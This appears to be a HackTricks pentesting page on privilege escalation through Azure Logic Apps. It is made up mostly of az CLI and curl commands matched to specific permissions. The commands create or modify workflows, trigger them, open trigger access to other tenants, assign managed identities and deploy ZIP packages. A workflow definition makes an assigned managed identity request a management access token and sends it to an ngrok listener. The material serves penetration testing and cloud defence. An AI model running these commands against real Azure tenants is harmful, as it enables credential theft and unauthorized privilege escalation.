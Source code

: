 # Az - Logic Apps Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Logic Apps Privesc
For more information about SQL Database check:

{{#ref}}
../az-services/az-logic-apps.md
{{#endref}}

### (`Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`) && (`Microsoft.Logic/workflows/triggers/run/action`)

These permissions allows to create/update Azure Logic Apps workflows with specific user managed identities and use them to get access tokens from them:

```bash
az logic workflow create \
  --resource-group <resource_group_name> \
  --name <workflow_name> \
  --definition <workflow_definition_file.json> \
  --location <location>

az logic workflow update \
  --name my-new-workflow \
  --resource-group logicappgroup \
  --definition <workflow_definition_file.json>
```

Example definition of workflow with manual trigger to steal a management token of an assigned identity listeningn in a ngrok URL:

```json
{
  "definition": {
    "$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowDefinition.json#",
    "contentVersion": "1.0.0.0",
    "parameters": {},
    "triggers": {
      "manual": {
        "type": "Request",
        "kind": "Http",
        "inputs": { "schema": {} }
      }
    },
    "actions": {
      "GetSecret": {
        "type": "Http",
        "inputs": {
          "method": "GET",
          "uri": "https://82fa-81-33-67-18.ngrok-free.app",
          "authentication": {
            "type": "ManagedServiceIdentity",
            "audience": "https://management.azure.com/",
            "identity": "/subscriptions/0c7db2d7-90ba-4106-8610-cdd8c06971fe/resourceGroups/-rg-10b8e451/providers/Microsoft.ManagedIdentity/userAssignedIdentities/uai-10b8e451",
          }
        }
      },
      "Respond": {
        "type": "Response",
        "runAfter": { "GetSecret": ["Succeeded"] },
        "inputs": {
          "statusCode": 200,
          "body": "@body('GetSecret')"
        }
      }
    },
    "outputs": {}
  },
  "parameters": {}
}
```

And after modifying it, you can run it with:

```bash
az rest \
  --method post \
  --uri "https://management.azure.com/subscriptions/{subscriptionId}/resourcegroups/{resourceGroupName}/providers/Microsoft.Logic/workflows/{logicAppName}/triggers/{triggerName}/run?api-version=2016-10-01" \
  --body '{}' \
  --headers "Content-Type=application/json"
```

OIf there is a manual trigger, you can get the callback URL and run it:

```bash
az rest --method POST \
  --url "https://management.azure.com/subscriptions/<subscription>/resourceGroups/<rg-name>>/providers/Microsoft.Logic/workflows/<workflow-name>>/triggers/manual/listCallbackUrl?api-version=2019-05-01" \
  --query "value" -o tsv

curl -X POST "https://prod-11.centralus.logic.azure.com:443/workflows/02f4e715c50a42c58b683629ddb889f5/triggers/manual/paths/invoke?api-version=2019-05-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=5m1THJOCzEl6WoZyaont4i2A62PpSZhK3BtVAzYYTPY"
```

### Microsoft.Logic/workflows/write

With just this permission it's possible to change the Authorization Policy, giving for example another tenant the capability to trigger the workflow:

```bash
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<resource-group-name>/providers/Microsoft.Logic/workflows/<workflow-name>?api-version=2016-10-01" \
  --body '{
    "location": "<region>",
    "properties": {
      "definition": {
        "$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowdefinition.json#",
        "contentVersion": "1.0.0.0",
        "parameters": {
          "$connections": {
            "defaultValue": {},
            "type": "Object"
          }
        },
        "triggers": {
          "<trigger-name>": {
            "type": "Request",
            "kind": "Http"
          }
        },
        "actions": {},
        "outputs": {}
      },
      "accessControl": {
        "triggers": {
          "openAuthenticationPolicies": {
            "policies": {
              "<policy-name>": {
                "type": "AAD",
                "claims": [
                  {
                    "name": "iss",
                    "value": "<issuer-url>"
                  }
                ]
              }
            }
          }
        }
      }
    }
  }'
```

### `Microsoft.Logic/workflows/triggers/listCallbackUrl/action`
You can get the callback URL of the trigger and run it.

```bash
az rest --method POST \
  --uri "https://management.azure.com/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.Logic/workflows/<workflow_name>/triggers/<trigger_name>/listCallbackUrl?api-version=2019-05-01"
```

This will return a callback URL like `https://prod-28.centralus.logic.azure.com:443/workflows/....`. Now we can run it with:

```bash
curl --request POST \
     --url "https://prod-28.centralus.logic.azure.com:443/workflows/<workflow_id>/triggers/<trigger_name>/paths/invoke?api-version=2019-05-01&sp=%2Ftriggers%2F<trigger_name>%2Frun&sv=1.0&sig=<signature>" \
     --header 'Content-Type: application/json' \
     --data '{"exampleKey": "exampleValue"}'
```

### `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

With these permissions it's possible to modify Logic App workflows and manage their identities. Specifically, you can assign or remove system-assigned and user-assigned managed identities to workflows.

```bash
az logic workflow identity remove/assign \
  --name <workflow_name> \
  --resource-group <resource_group_name> \
  --system-assigned true \
  --user-assigned "/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<identity_name>"
```

### (`Microsoft.Web/sites/read`, `Microsoft.Web/sites/basicPublishingCredentialsPolicies/read`, `Microsoft.Web/sites/write`, `Microsoft.Web/sites/config/list/action`) && (`Microsoft.Web/sites/start/action`)

With these permissionss it's possible to deploy Logic App workflows using ZIP file deployments. These permissions enable actions such as reading app details, accessing publishing credentials, writing changes, and listing app configurations. Alongside the start permissions you can update and deploy a new Logic App with the content desired

```bash
az logicapp deployment source config-zip \
  --name <logic_app_name> \
  --resource-group <resource_group_name> \
  --src <path_to_zip_file>
```


{{#include ../../../banners/hacktricks-training.md}}


